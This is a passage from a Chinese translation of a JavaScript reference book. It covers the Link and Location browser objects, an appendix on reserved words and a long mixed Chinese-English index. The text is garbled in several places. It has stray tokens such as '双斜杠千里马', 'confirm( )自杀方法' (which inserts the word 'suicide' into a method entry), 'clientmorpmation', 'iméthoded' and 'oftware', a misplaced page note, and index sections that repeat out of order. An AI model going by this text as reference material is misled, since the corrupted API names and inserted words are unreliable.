- **disabled** 布尔值，表示该元素是否已禁用（变灰）。（IE4+, MOZ/N6+, DOM1）
- **href** 字符串，保存**href**属性的值，即链接激活时要加载的文档。在传统模型中为**Link**定义。（IE3+, N2+, MOZ, DOM1）
- **hreflang** 字符串，表示链接资源的语言代码。（MOZ/N6+, IE6+, DOM1）
- **media** 字符串，表示链接文档适用的媒体。（MOZ/N6+, DOM1）
- **rel** 字符串，保存元素的**rel**属性值。用于指定文档之间的关系。（IE4+, MOZ/N6+, DOM1）
- **rev** 字符串，保存元素的**rev**属性值。用于指定文档之间的关系，但目前大多数浏览器忽略此项。（IE4+, MOZ/N6+, DOM1）
- **target** 指定引用框架的超文本源链接的目标窗口。（IE4+, MOZ/N6+, DOM1）
- **type** 字符串，指定建议的内容类型。（IE4+, MOZ/N6+, DOM1）

#### 方法

该对象仅具有本节开头的**通用 HTML 元素**对象中列出的方法。

#### 支持

支持 Internet Explorer 4+、Mozilla/Netscape 6+、DOM1。

### Location（浏览器对象）

**Location**对象提供了一种便捷的方式来访问当前文档的 URL 及其组成部分。将字符串赋值给**Location**对象会导致浏览器自动将字符串解析为 URL，更新对象的属性，并将该字符串本身设置为对象的**href**属性。

#### 属性

- **hash** 字符串，包含 URL 中 # 符号后面的部分（如果存在）。（IE3+, N2+, MOZ）
- **host** 字符串，包含 URL 的主机名和端口（尽管某些实现不包含端口）。（IE3+, N2+, MOZ）
- **hostname** 字符串，包含主机名（域名）。（IE3+, N2+, MOZ）
- **href** 字符串，包含完整的 URL。（IE3+, N2+, MOZ）
- **pathname** 字符串，包含 URL 的路径（目录）部分。至少为"/"。（IE3+, N2+, MOZ）
- **port** 字符串，包含端口号（如果已指定）。（IE3+, N2+, MOZ）
- **protocol** 字符串，包含协议及尾随的冒号（例如，"http:"）。（IE3+, N2+, MOZ）
- **search** 字符串，包含 URL 中文件名之后的部分（如果已指定，包括 ? 分隔符）。（IE3+, N2+, MOZ）

#### 方法

## 附录 C：JavaScript 保留字

所有语言，包括 JavaScript，都有许多不能用作变量名、函数名或任何其他形式标识符的保留字，否则会导致一些问题。如果将这些保留字之一用作用户定义的标识符（如变量或函数名），则应该会导致语法错误。例如，

```
var for="not allowed";
```

```
document.write("Variable = " +for);
```

声明了一个名为*for*的变量，而正如你所见，*for*是用于循环的 JavaScript 关键字。你可能会预期发生某种形式的错误，而较旧的浏览器会抛出错误，例如此处来自 Navigator 3 的错误，


这很合理。然而，较新的浏览器可能不会显示预期的错误。请注意 Internet Explorer 对相同代码显示的提示。


有时你可能会发现，当使用保留字时，代码只是被忽略或者没有显示错误。例如，在前面的示例中使用*goto*代替*for*，它应该在许多浏览器中都能工作，包括 Internet Explorer。

一般来说，保留字被保留使用是因为它们已经在 JavaScript 的某种变体或相关技术中具有了定义的含义。保留字通常分为三类：

- 语言关键字
- 未来保留字
- 诸如对象名或相关技术关键字之类的词

表 C-1 根据 JavaScript 1.5 规范结合 Microsoft 的 Jscript 文档列出了前两类中的单词。

### 表 C-1：JavaScript 1.5 中的保留字

| abstract | else | instanceof | switch |
| boolean | enum | int | synchronized |
| break | export | interface | this |
| byte | extends | long | throw |
| case | false | native | throws |
| catch | final | new | transient |
| char | finally | null | true |
| class | float | package | try |
| const | for | private | typeof |
| continue | function | protected | val |
| debugger | goto | public | var |
| default | if | return | void |
| delete | implements | short | volatile |
| do | import | static | while |
| double | in | super | with |

**注意** 有些与类型相关的保留字在 JavaScript 中并不存在（439页) 例如 *byte*，在某些版本的 ECMAScript 中是保留字，但在其他版本中则不是。

除了这些众所周知的保留字之外，还有其他一些词在某些版本的 JavaScript 中可能会有问题，包括 ECMAScript 4、Jscript.NET 和 JavaScript 2.0。虽然表 C-2 中所示的单词在你的浏览器中可能实际上并未被保留，但为安全起见应避免使用它们。

### 表 C-2：潜在保留字

| As | event | Is | uint |
| Assert | get | Namespace | ulong |
| Decimal | include | Require | use |
| Ensure | internal | Sbyte | ushort |
| Exclude | invariant | Set | |

第三类危险的标识符包括 JavaScript 内置对象、函数和数据类型的名称。**String**、**parseInt**、**document** 等词都属于这一类。这种"危险"的标识符名称数量太多，无法一一列举，但请将附录 A 或附录 B 中的任何内容视为 JavaScript 标识符，不宜用于其他用途。

**提示** 未来版本的 JavaScript 肯定会增加对面向对象编程原则的更多支持，并增加对与 HTML、XML 和 CSS 交互的支持。因此，JavaScript 程序员应避免使用任何特定于这些语言的单词，如"head"、"body"、"frame"等。虽然这些单词中的许多可能可以安全使用，但应使用不太通用的标识符，这样既可以确保代码在未来仍然有效，又可以避免不良的编程风格。

# 索引

## 符号

- --（递减）运算符，85–86
- -（减号）符号，81
- -（减法）运算符，79
- &（AND），按位运算符，82
- !（感叹号），逻辑运算符，89
- &&（双与号），逻辑运算符，89
- !=（不等于），87
- !==（不等于且类型不同），87
- "( )"（括号）运算符，94、204
- $（美元符号），位置指示符，194
- %（取模）运算符，79
- *（乘法）运算符，79
- ,（逗号）运算符，90–91、742
- .（点号）运算符，136
- .js 文件，129
- /（除法）运算符，79
- //（双斜杠千里马) 43
- ?!（正向前瞻），216
- ?:（条件）运算符，89–90
- ?:（非捕获括号），216
- [ ]（方括号），93、198
- \（反斜杠），转义码符号，195
- ^（插入符），位置指示符，194、200
- ^（XOR），按位运算符，82
- { }（花括号），28、77–78
- |（OR），按位运算符，82
- |（管道符），202
- ||（双管道符），逻辑运算符，89
- ~（NOT），83
- +（加法）运算符，79、80–81
- ++（递增）运算符，85–86
- <（小于），87、145
- <<（左移）运算符，83–84
- <=（小于或等于），87、145
- =（赋值）运算符
  - 为变量赋值，78–79
  - 简写赋值，84–85


## A
- `<a>`, 769–771
- abbr object, HTMLElement, 771
- `<abbr>`, 771
- abstraction
  - form validation and, 446–449
  - in OOP, 157
- acronym object, HTMLElement, 771
- `<acronym>`, 772
- ActiveX, 574–578
  - FileSystemObject, 656–657
  - IE security zones and, 689–690
  - including ActiveX controls, 574–575
  - interacting with ActiveX controls, 576–578
  - overview of, 574
- ActiveXObject, 655–657, 772
- addEventListener( ) 方法, 331
- addition (+) 运算符, 79, 80–81
- address object, HTMLElement, 772–773
- `<address>`, 772–773
- aggressive matching, regular expressions, 216–217
- alert( ) 方法
  - debugging and, 703
  - methods common to all objects, 145–146
  - Window object, 40, 348
- all( ) method, Document object, 360, 362
- all[ ] collection
  - DHTML and, 397–398
  - Document object, 293–294
  - IE positioned regions, 479–480
- alternation separator, in regular expressions, 202–203
- anchors, 769–771
- anchors[ ] collection, 391–392
- AND (&), bitwise operators, 82
- animation, DHTML, 500–504
- anonymous functions, 124
- appendChild( ) method, DOM node creation, 265
- applet object, HTMLElement, 560, 773–774
- `<applet>`
  - compared with `<object>`, 562
  - correspondence to applet, HTMLElement, 773
  - Document object and, 396
  - including Java applets in JavaScript, 558–559
  - mayscript attribute, 563–564
- applets. See Java applets
- applets[ ] collection, 396, 560, 773
- application-like menus, DHTML, 510–513
- appName property, Navigator object, 536
- appVersion property, Navigator object, 536
- area object, HTMLAreaElement, 774
- `<area>`, 774
- areas[ ] array, 774
- arguments
  - checking, 130
  - Date( ) constructor, 174
  - functions, 63
- arithmetic operators, 79–81
  - binary and self-assignment, 739
  - list of, 79
  - overview of, 33–34
  - pre/postfix, 739
  - string concatenation and, 80–81
  - syntax reference, 739–740
  - unary, 81, 740
- arity property, functions, 126
- array literals, 737–738
- Array object, 159–173
  - accessing elements, 160
  - adding/changing elements, 161–162
  - concat( ) method, 167–168
  - constructors, 775
  - creating new, 93
  - declaring, 159–160
  - extending with prototypes, 172–173
  - join( ) method, 168
  - length property, 162–165
  - methods, 776
  - multidimensional, 172
  - properties, 775
  - removing elements, 162
  - reverse( ) method, 168
  - slice( ) method, 169
  - sort( ) method, 170–171
  - splice( ) method, 169
  - as stacks and queues, 165–166
  - toSource( ) method, 170
  - toString( ) method, 169–170
- Array( ) constructor, 159
- array([ ]) operator, 137
- arrays, 31–32, 62
- arrays, associative
  - accessing Document objects with, 232
  - cookies in, 525
  - objects as, 149–150
- assignment operator (=)
  - assigning value to variables, 78–79
  - shorthand assignment, 84–85
  - use in statements, 27
- associative arrays
  - accessing Document objects with, 232
  - cookies in, 525
  - objects as, 149–150
- associativity, operator precedence, 94–96, 743–744
- attachEvent( ) method, 322
- attributes. *See also* properties
  - basic event handler attributes in (X)HTML, 300–301
  - binding event handler attributes with JavaScript, 310–311
  - manipulating DOM, 271–272
- Authenticode, 683. *See also* signed scripts

## B
- b object, HTMLElement, 777
- `<b>`, 777
- backslash (\), escape code symbol, 195
- base, HTMLBaseElement, 777
- `<base>`, 777
- baseFont, HTMLBaseFontElement, 777–778
- `<basefont>`, 777
- bdo object, HTMLElement, 778
- `<bdo>`, 778
- bgSound, document object, 778–779
- `<bgSound>`, 778–779
- big object, HTMLElement, 779
- `<big>`, 779
- binary arithmetic operators, 739
- binary relational operators, 742
- binary type operators, 741
- binding methods. See event binding
- bitwise operators, 81–85
  - combining with arithmetic or assignment operators, 84–85
  - list of, 82–83, 740
  - overview of, 34, 81–83
  - shift operators, 83–84
  - syntax reference, 740
  - truth tables for, 82
- block statements, syntax reference, 744–745
- blockQuote object, HTMLQuoteElement, 779–780
- `<blockquote>`, 779–780
- blocks, of code, 28, 77–78
- blur events, 426
- body object, HTMLBodyElement, 780–781
- body property, Document object, 263
- `<body>`, 370, 780
- BOM (Browser Object Model), 21, 221
- bookmarks, Web browsers, 19
- Boole, George, 57
- Boolean data type
  - conversion of, 734
  - converting to, 65
  - defined, 29
  - overview of, 57–58
- Boolean object, built-in objects, 173, 781–782
- border-width property, 492
- br object, HTMLBRElement, 782
- `<br>`, 782
- break statements
  - flow control and, 106–108
  - labels and, 106–108, 747
  - loops and, 38–39, 105–106, 747
  - switch/case statements and, 100, 101–102, 746
- breakpoints, debuggers, 706
- browser capabilities detection, 535–554
  - advantages/disadvantages, 719
  - categories of detectable information, 539
  - defensive programming and, 718–720
  - implementation of, 551
  - Java, 543
  - JavaScript object, 542–543
  - JavaScript support, 540–541
  - JavaScript version, 541–542
  - languages, 548–549
  - Microsoft client, 549–551
  - Navigator object, 536–539
  - overview of, 535–536
  - plug-ins, 543–544
  - technology, 539–544
  - visual (screen object), 544–548
- browser events, DOM2, 336
- Browser Object Model (BOM), 21, 221
- browser object models
  - IE 3, 240–241
  - IE 4, 241–246
  - IE 5, 5.5, and 6, 246–247
  - Konqueror, 247
  - Mozilla, 240
  - Netscape 3, 236–237
  - Netscape 4, 237–240
  - Netscape 6 and 7, 240
  - Opera, 247
  - Safari, 247
- browser objects, 133–134
  - Event, 805–811
  - Frame, 822
  - History, 826–827
  - java, 832
  - list of, 224
  - Location, 838–839
  - Navigator, 843–845
  - in object model, 221
  - screen, 862–863
  - Window, 903–911
- browser objects, proprietary
  - clientInformation, 786
  - clipboardData, 786–787
  - dataTransfer, 788–789
  - external, 817–818
  - mimeType, 843
  - namespace, 843
  - netscape, 852–853
  - Packages, 852–853
  - Plugin, 854
  - popup, 855
  - selection, 865–866
  - TextRange, 896–898
  - TextRectangle, 898–899
  - userProfile, 901–902
- browsers
  - bookmarks, 19
  - bridging embedded objects with JavaScript, 557
  - button click simulation, 551–552
  - capability detection. *see browser capabilities detection*
  - control, 551
  - cookies. *see cookies*
  - debuggers, 707
  - DHTML and, 476
  - DOM document trees and, 261–262
  - error suppression and, 5–6
  - event handlers, 14
  - event model compatibility, 299
  - exceptions to same-origin policy, 682
  - IE extensions. *see IE (Internet Explorer), extensions*
  - innerbrowsing, 600–601
  - innerHTML property support, 291–292
  - innerText property support, 292–293
  - JavaScript support, 20
  - Mozilla extensions, 675–676
  - Netscape extensions, 672–673
  - outerHTML property support, 292–293
  - outerText property support, 292–293
  - plug-ins. *see plug-ins*
  - positioned regions, 478–480
  - preference settings, 552–554
  - security problems, 690–692
  - window extensions, 381–384
- bubbling phase, DOM2 Event model, 330
- built-in objects
  - ActiveXObject, proprietary, 772
  - Array. *see Array object*
  - Boolean, 173, 781–782
  - Date, 174–178, 789–793
  - Enumerator, 803
  - Error, 803–804
  - FileSystemObject, proprietary, 819
  - Function, 823–824
  - Global, 178–180, 824–825
  - Math, 180–183, 840–842
  - Number, 183, 847–848
  - Object, 848–849
  - overview of, 61, 133–134
  - RegExp. see RegExp object
  - String, 183–188, 867–870
  - syntax reference, 736
- button clicks, simulating, 551–552
- button object, HTMLButtonElement, 782–783
- Button object, HTMLInputElement, 783–784
- `<button>`, 425–426, 782–783
- buttons, 423–426
- by reference
  - passing composite types, 115–116
  - passing primitive types, 745
- by value
  - passing composite types, 745
  - passing primitive types, 114–115

## C
- call stacks, 703–704
- callbacks, remote JavaScript, 594–595
- cancelBubble property, Event object, 328
- capability detection. See browser capabilities detection
- capitalization. See case sensitivity
- caption object, HTMLTableCaptionElement, 784
- `<caption>`, 406, 408, 784
- capture phase, DOM2 Event model, 330
- caret (^ ), positional indicator, 194, 200
- Cascading Style Sheets. See CSS (Cascading Style Sheets)
- case sensitivity
  - HTML and, 25–26
  - implications of, 25
  - naming conventions and, 68
- case statements, in switch/case, 36–37, 100
- catch. See try...catch statements
- center object, HTMLElement, 784–785
- `<center>`, 784
- CGI scripts
  - automatic error reporting, 712
  - cookies and, 529
  - data-intensive Web applications, 660
  - sending message to servers with, 582
- character classes, 198–202
  - commonly used, 201–202
  - negative, 200–201
  - overview of, 198–200
  - regular expressions, 749–750
- character sets, string data type, 54–55
- charAt( ) method, String object, 54, 184
- Checkbox object, HTMLInputElement, 785–786
- checkboxes, 431–435
- cite object, HTMLElement, 786
- `<cite>`, 786
- class attribute, `<div>` tag, 493
- class properties, objects, 155–156
- class-based object-oriented languages, 151, 558
- classes
  - CSS (Cascading Style Sheets), 283–284


## D

- DHTML 样式，493–494
- classid 属性，`<object>`，574–575
- clearInterval( ) 方法，Window 对象，369–370
- clearTimeout( ) 方法，Window 对象，368
- click( ) 方法，表单输入，423
- 客户端能力检测，MS 客户端，549–551
- clientmorpmation 对象，浏览器对象，786
- clipboardData 对象，浏览器对象，786–787
- cloneNode( ) 方法，267
- close( ) 方法
    - Document 对象，389–391
    - Window 对象，61，353–354
- 代码
    - 编码风格，723–724
    - 防御式编程与，709–710
    - 隐藏，720–723
    - 保护，724–726
    - 编写速度，724
    - 注释的价值，44
- 代码块，28，77–78
- code 对象，HTMLElement，787
- `<code>`，787
- codebase 属性，ActiveX，575
- col 对象，HTMLTableColElement，787–788
- `<col>`，787
- colGroup 对象，HTMLTableColElement，788
- `<colgroup>`，788
- 集合
    - CSS，283–284
    - DOM Level 1，398–399
    - IE，232，645–646
- 颜色属性，Document 对象，385–388
- COM（组件对象模型），655
- 逗号运算符（,），90–91
    - 语法参考，742
- 注释节点，271
- 注释
    - 函数，131
    - 概述，43–44
- 通信，远程 JavaScript
    - 单向，582–583
    - 双向，585–586
- 比较运算符，87–89
    - 比较字符串，88–89
    - 列表，87
    - 不要与赋值运算符混淆，27
    - 概述，87–88
- compile( ) 方法，RegExp 对象，204–205
- 组件对象模型（COM），655
- 复合数据类型。*参见 data types, composite*
- 计算样式，DHTML，494–496
- concat( ) 方法
    - Array 对象，167–168
    - String 对象，186
- 条件编译，IE（Internet Explorer），648–650
- 条件运算符，89–90 oftware，740–741
- 条件语句，36，746
- confirm( )自杀方法，Window 对象，40，348–350
- 常量，Math 对象，181
- 构造函数。*参见 new keyword*
    - Array( ) 构造函数，159
    - Date( ) 构造函数，174–175
    - Enumerator( ) 构造函数，647
    - new 运算符与，135
    - 对象，61–62，152–153
    - String( ) 构造函数，183–184
- 上下文菜单，DHTML，520–521
- 上下文，变量执行，70，73–74
- continue 语句
    - 流程控制与，106–107
    - 标签与，106–107，747
    - 循环与，38–39，105–106，747
- 转换。*参见 type conversion*
- cookie 属性，Document 对象，523
- Cookie，522–532
    - 解剖，523
    - 基于 Cookie 的 RPC，588–589
    - 使用 Cookie 进行自定义，529–531
    - 删除，526–527
    - 局限性，531–532
    - 一次性弹出窗口，528
    - 概述，522
    - 解析，525–526
    - 读取，524–525
    - 重定向，528
    - 安全性，527
    - 设置，523–524
    - 使用 Cookie 进行状态管理，527
- 协调世界时（UTC），174
- 核心语言。*参见 languages, core*
- 核心对象，对象模型，221
- createElement( ) 方法，XHTML/HTML，404
- createEvent( ) 方法，DOM2，341
- createPopup( )，DHTML，670
- 跨浏览器支持，247
- 跨站脚本
    - 概述，692–693
    - 预防，693–694
    - 远程 JavaScript 与，592
- 压缩，724
- 加密，527
- CSS（层叠样式表），276–287
    - 用于动态样式的类和集合，283–284
    - 复杂样式规则，285–287
    - 使用 CSS 显示 XML 文档，614–615
    - DOM 标准与，134
    - 内联样式操作，276–282
    - 映射到 DOM，277–279
    - 定位，477–478
    - 翻转按钮与，475–476
    - rule 对象，CSSRule，861–862
    - visibility 属性，511
- CSS 滤镜，IE 扩展，654–655
- cssRules[ ] 集合，286
- 花括号（{}），28，77–78
- currentStyle 对象，专有文档对象，788

# 索引

## D

- 数据绑定模型，660–662
- 数据岛，XML，618–619，630–632
- 数据类型
    - 转换，64–67
    - 动态类型，29–31
    - 概述，29
    - 语法参考，732
    - 使用 typeof 运算符检查，63
- 复合数据类型。*参见 reference types*
    - 数组，31–32，62
    - 函数，63
    - 对象，32–33，60–62
    - 概述，31
    - 按引用传递，115–116
    - 语法参考，735
- 原始数据类型
    - 布尔值，57–58
    - 转换规则，65–66
    - 列表，732
    - null，59–60
    - 数字，49–53
    - 对应的类型对象，188
    - 按值传递，114–115
    - 提升为对象，66–67
    - 字符串，53–57
    - 语法，732–733
    - *undefined*，58–60
- dataTransfer 对象，专有浏览器对象，788–789
- Date 对象，174–178
    - 构造函数，789–790
    - 将日期转换为字符串，177
    - 将字符串转换为日期，177–178
    - 创建日期，174–175
    - 日期表示的局限性，178
    - 操作日期，175–176
    - 方法，790–793
    - 概述，174，789
    - 属性，790
- Date( ) 构造函数，174–175
- dd 对象，HTMLElement，793–794
- `<dd>`，793
- 调试，702–709
    - 调试器的使用，706–709
    - 错误通知，699
    - 常见错误和症状列表，701–702
    - 手动输出调试信息，702–703
    - 堆栈跟踪，703–706
    - 打开错误消息，698–699
- 欺骗性编程策略，浏览器安全，692
- 声明变量，47，69–70
- decode( ) 方法，Global 方法敕iméthoded，180
- 递减运算符（--），85–86
- 深克隆，267
- defaultStatus 属性，Window 对象，367
- 防御式编程
    - 浏览器能力检测，718–720
    - 代码隐藏，720–723
    - 错误处理程序，710–712
    - Error 对象，714–715
    - 错误报告，自动，712–714
    - 异常，714，718
    - 概述，709–710
    - try、catch 和 throw 语句，715–717
- del 对象，HTMLModElement，794
- `<del>`，794
- delete 运算符
    - 删除对象，33，93–94
    - 移除数组元素，162
    - 移除实例属性，137
- deleteCookie( ) 方法，527
- deleteLastElement( )，630
- deleteRule( ) 方法，285
- detachEvent( ) 方法，322
- dfn 对象，HTMLElement，794–795
- `<dfn>`，794
- DHTML（动态 HTML），476–504
    - 动画，500–504
    - 浏览器特定，476
    - 计算样式，494–496
    - 跨浏览器库，480–489
    - CSS 定位，477–478
    - 与 DHTML 行为比较，670
    - 与文档对象相关的集合，397–398
    - 与 DOM 比较，291–294
    - DOM 定位区域，479–480
    - DOM 标准，134，236
    - IE 定位区域，479–480
    - 菜单。*参见 menus, DHTML*
    - Netscape 4 与，237–240
    - Netscape 定位区域，478–479
    - 翻转，498–499
    - 谨慎使用 DHTML 效果，504
    - 标准基础，489
    - 样式类，493–494
    - 样式对象，489–493
    - 过渡，496–499
- DHTML 行为，664–670
    - 附加到元素，665
    - 与传统 DHTML 比较，670
    - 默认值，668–669
    - 定义，666–668
    - 元素行为，669–670
    - 概述，664–665
    - 移除，666
    - 存储客户端状态，532
- 对话框，347–351
    - 警告，348
    - 确认，348–350
    - 概述，347–351
    - 提示，350–351
- 数字证书，683–684
- dir 对象，HTMLDirectoryElement，795
- `<dir>`，795
- disabled 属性，表单字段，457
- dispatchEvent( ) 方法，DOM2，340–341
- display( ) 方法，Array 对象，172
- div 对象，HTMLDivElement，795–796
- `<div>`
    - class 属性，493
    - 对应于 HTMLDivElement，796
    - 菜单样式与，510–511
    - Netscape 4，478
    - Style 对象与，489
- 除法（/）运算符，79
- dl 对象，HTMLDListElement，796
- `<dl>`，796
- do... while 循环，747
- Document 对象，796–801
    - 使用关联数组访问，232
    - anchors[ ] 集合，391–392
    - 作为内置对象，61
    - 颜色属性，385–388
    - 对应于 (X)HTML，400–404
    - 与 DHTML 相关的集合，397–398
    - DOM Level 1 属性和集合，398–399
    - 按名称访问元素，231
    - 按位置访问元素，230
    - elements[ ] 集合，393–394
    - forms[ ] 集合，392–393
    - 历史属性，385
    - 与 HTML 相关的集合，391–397
    - images[ ] 集合，394–396
    - 最后修改日期，388
    - links[ ] 集合，392
    - 位置属性，388–389
    - 最低公分母文档属性和方法，225–229


方法，389–391，799–801
对象相关的集合，396–397
使用其输出，41
概述，796
属性，796–799
对（X）HTML的支持，398–400
网页内容与，32

文档对象模型。参见 DOM（文档对象模型）

### 文档对象，761–769

- abbr，771
- acronym，771
- address，772–773
- 锚点与链接，769–771
- applet，773–774
- area，774
- b，777
- base，777
- baseFont，777–778
- bdo，778
- bgSound，778–779
- big，779
- blockQuote，779–780
- body，780–781
- br，782
- button，782–783
- Button，783–784
- caption，784
- center，784–785
- Checkbox，785–786
- cite，786
- code，787
- col，787–788
- colGroup，788
- 作为对象模型的组件，221
- dd，793–794
- del，794
- dfn，794–795
- dir，795
- div，795–796
- dl，796
- dt，801
- em，802
- fieldset，818
- file，文件上传，818–819
- font，819–820
- form，820
- frame，821
- frameSet，822
- h1,...h6，827
- head，825
- Hidden，826
- hr，827
- html，827–828
- i，828
- iframe，828–829
- Image，829–831
- 实现，831
- input，832
- ins，832
- isIndex，832
- kbd，833
- label，834
- legend，836–837
- li，837
- link，837–838
- map，839
- menu，842
- meta，842
- noFrames，846
- noScript，846–847
- object，849–850
- ol，850–851
- optGroup，851
- option，851–852
- 概述，134
- p，852
- param，853
- Password，854
- plainText 对象，已弃用，854
- pre，856
- q，856
- Radio，856–857
- Reset，859–860
- rule，CSSrule，861–862
- samp，862
- script，863–864
- select，864–865
- Style，870–885
- style，885
- styleSheet，886–887
- sub，887
- submit，888
- sup，889
- table，889–891
- tBody，tHead，tFoot，891
- td，891
- Text，893–894
- textarea，894–895
- TextNode 对象，895–896
- th，891
- title，899
- tr，899–900
- tt，900
- u，901
- ul，901
- var，902–903

### 文档对象，专有

- currentStyle，788
- embed，802–803
- Layer，834–836
- marquee，839–840
- noBR，845–846
- page，853
- rt，860
- ruby，861
- runtimeStyle，862
- wbr，903
- xml，911–913
- xmp，914

document 属性，Window 对象，134

### 文档树，DOM

- 访问元素，255–256
- 浏览器在导航方面的差异，261–262
- 节点。*参见* 节点，DOM
- 概述，252–255
- 起点，262–263

文档类型定义（DTD），607–608

documentElement 属性，Document 对象，263

美元符号（$），位置指示符，194

### DOM（文档对象模型），249–295

- 与之关联的（X）HTML元素，402–404
- 属性操作，271–272
- 浏览器与功能检测，720
- 类别，250
- 与 BOM 比较，221
- 与 DHTML 比较，291–294
- 文档树导航，浏览器差异，261–262
- 文档树起点，262–263
- 文档树，252–255
- DOM 遍历 API，287–289
- 事件方法，810–811
- 事件模型。*参见* DOM2 事件模型
- 事件，812–813
- getElementById() 方法，255–256
- getElementsByName() 方法，262
- getElementsByTagName() 方法，263–264
- hasChildNodes() 方法，258–261
- HTML 元素与，272–276，400–402
- Internet Explorer XML 示例，620–624
- Level 0 集合，263
- Level 1 集合，398–399
- 级别，249–250
- 映射到 CSS，277–279
- Mozilla XML 示例，624–630
- 节点副本，267–268
- 节点创建，264–265
- 节点删除与替换，268–269
- 节点插入，265–267
- 节点修改，269–271
- 节点属性，256
- 概述，21，134，249
- 定位区域，479–480
- 范围选取，289–290
- 标准，236
- 表格操作，405–414
- 即将到来的特性，290
- Window 对象方法，360–361

#### DOM Level 0，250，263

#### DOM Level 1

- 访问元素，263
- 属性，271–272
- 概述，250

#### DOM Level 2

- DOM 遍历 API，287–289
- 事件模型。*参见* DOM2 事件模型
- hasAttributes() 方法，271
- 概述，250
- 范围选取，289–290
- styleSheets[] 集合，285

- DOM Range API，289–290
- DOM 遍历 API，287–289
- DOM2 事件模型。*参见* 事件模型，DOM2
- 基于 DOM 的 HTML 编辑器，276
- 点（.）运算符，136
- 双与号（&&），逻辑运算符，89
- 双正斜杠（//），43
- 双竖线（||），逻辑运算符，89
- 字符串加倍，浏览器安全，691
- do-while 循环，37–38，103–104
- Dreamweaver，Macromedia，708
- 即插即用的表单验证，449–451
- dt 对象，HTMLElement，801
- `<dt>`，801
- DTD（文档类型定义），607–608
- 动态内容，远程 JavaScript，589–592
- 动态表单，458–461
- 动态 HTML。*参见* DHTML（动态 HTML）
- 动态属性，IE，662–664
- 动态作用域说明，498
- 动态样式，CSS，283–284
- 动态类型，29–31，155

# 索引

## E

- ECMAScript
  - 内置对象，736
  - cookies 与，525
  - 与 JavaScript 的关系，642，731
  - 与 JScript 的关系，731
  - 作为标准化的 JavaScript，20–21
  - 版本，730
- 编辑器，基于 DOM 的 HTML，276
- 元素，数组
  - 访问，160
  - 添加/更改，161–162
  - 索引，62
  - 移除，162
- 元素，Document 对象
  - 按名称访问，231
  - 按位置访问，230
- elements[] 集合，393–394，419–421
- else 语句，36，97–98，746。*另见* if 语句
- em 对象，HTMLElement，802
- `<em>`，802
- embed 对象，专有文档对象，802–803
- `<embed>`
  - 与 embed 对象的对应关系，802
  - 跨浏览器嵌入对象，575
  - Document 对象与，396
  - 插件与，564，571
- 嵌入对象，557–578
  - ActiveX。*参见* ActiveX
  - Java 小程序。*参见* Java 小程序
  - 概述，557
  - 插件。*参见* 插件
  - 同源策略与，681
- embeds[] 集合，396
- 封装，在面向对象编程中，157
- encode() 方法，180，584
- Enumerator 对象
  - 使用其进行迭代，648
  - 方法，647
  - 概述，803
- 等于且类型相同（===），87
- 相等（==）运算符，87，144–145
- 错误处理器，710–712
- 错误消息，开启，698–699
- Error 对象，714–715，748，803–804
- Error() 构造函数，704，714

- 错误
  - 浏览器抑制，5–6
  - 错误处理器，710–712
  - 错误消息，开启，698–699
  - 错误通知，699
  - 表单验证，444
  - 常见错误与症状列表，701–702
  - 自动报告，712–714
  - 运行时错误，696–698，700
  - 语义错误，697–698
  - 语法错误，695–696，698，700

- 转义码
  - HTML，694
  - 引号与，55–56
  - 正则表达式，195–196，750
  - 特殊字符，54–55
  - 字符串，733

- escape() 方法，字符串，180

- 事件绑定
  - 在（X）HTML中，299
  - DOM2，331–332
  - Internet Explorer 4+，322–323
  - 使用 JavaScript，310–311
  - （X）HTML中的非标准事件绑定，310
  - 悬停按钮与，468

- 事件处理器，811–817。*另见* 事件模型
  - 使用其添加交互性，13–15
  - 基本模型与现代模型比较，315–316
  - 绑定到元素，298
  - 绑定到对象，322–323，330–331
  - DOM 事件，812–813
  - HTML 4 事件，811–812
  - IE 扩展事件，814–817
  - 调用，233
  - Netscape 扩展事件，813–814
  - Netscape 和 Internet Explorer 中的非标准事件，303–309
  - 概述，232，297–298
  - 设置，232–233
  - 变量作用域与，72–73

- 事件模型，基本，299–315
  - 使用 JavaScript 绑定事件，310–311
  - 手动调用事件，314–315
  - （X）HTML中的事件与事件处理器属性，300–301
  - 其局限性，315
  - （X）HTML中的非标准事件绑定，310
  - Netscape 和 Internet Explorer 中可用的非标准事件处理器，303–309
  - 概述，299
  - 返回值，312–314
  - 作用域，311–312

### 事件模型，DOM2，330–343

- 将处理器绑定到对象，330–331
- 绑定方法，331–332
- 浏览器事件，336
- 事件创建，341–343
- Event 对象，332
- 事件传播与路由，339–341
- 键盘事件，335–336
- 鼠标事件，333–335
- 变更事件，337–338
- 概述，330
- 阻止默认动作，337–339
- UI 事件，336–337

### 事件模型，IE 4+

- 将处理器绑定到对象，322–323
- 事件行为，324–326
- 事件冒泡，324–326，328
- 事件创建，329–330
- 事件模型兼容性，299
- Event 对象，323
- 事件路由，329
- 模拟 Netscape 事件捕获，328
- 专有特性，330

### 事件模型，Netscape 4，316–321

- 事件捕获，319–320
- Event 对象，316–319
- 事件传播与路由，321

### 事件模型

- 基本模型与现代模型比较，315–316
- 特性比较，47–48
- 定义，297
- 概述，298

### Event 对象

- DOM2，332
- Internet Explorer 4+，323
- 方法，808–811
- Netscape 4，316–319
- 概述，315–316
- 属性，805–808
- 静态属性，320

### 事件

- （X）HTML 基本事件，300–301
- 在 Internet Explorer 4+ 中的行为，324–326
- 浏览器事件，336
- 在 Internet Explorer 4+ 中的冒泡，324–326
- 在 Internet Explorer 4+ 中的捕获，328
- 在 Netscape 4 中的捕获，319–320
- 常见事件，232
- 常见窗口事件，370–371
- 核心（X）HTML事件，14
- 在 DOM2 中创建，341–343
- 在 Internet Explorer 4+ 中创建，329–330
- 定义，297
- 手动调用，314–315
- 键盘事件，335–336
- 鼠标事件，333–335

 mutation events, 337–338
- overview of, 297–298
- routing in DOM2, 339–341
- routing in Internet Explorer 4+, 329
- routing in Netscape 4, 321
- triggers, 298
- UI events, 336–337

- exceptions, 718
  - Error object and, 714–715
  - limitations in support for, 718
  - list of exception objects, 748
  - overview of, 714
  - syntax reference, 748
  - try...catch, 715–717

exclamation (!), logical operator, 89

- exec( ) method
  - global flag and, 206–208
  - properties, 205–206
  - RegExp object, 205–208

- execution order
  - of scripts, 25
  - of variables, 73–74

explicit type conversion, 67

explicit, return statements, 130

- expressions
  - definition of, 24
  - overview of, 33

eXtensible Style Sheet Transformations (XSLT), 609–614

eXtensible Style Sheets. See XSL (eXtensible Style Sheets)

- extensions, browser
  - IE. see IE (Internet Explorer), extensions
  - Mozilla, 675–676
  - Netscape, 672–673

- extensions, Window object, 381–384
  - full-screen windows, 383–384
  - modal, modeless, and pop-up windows, 381–383

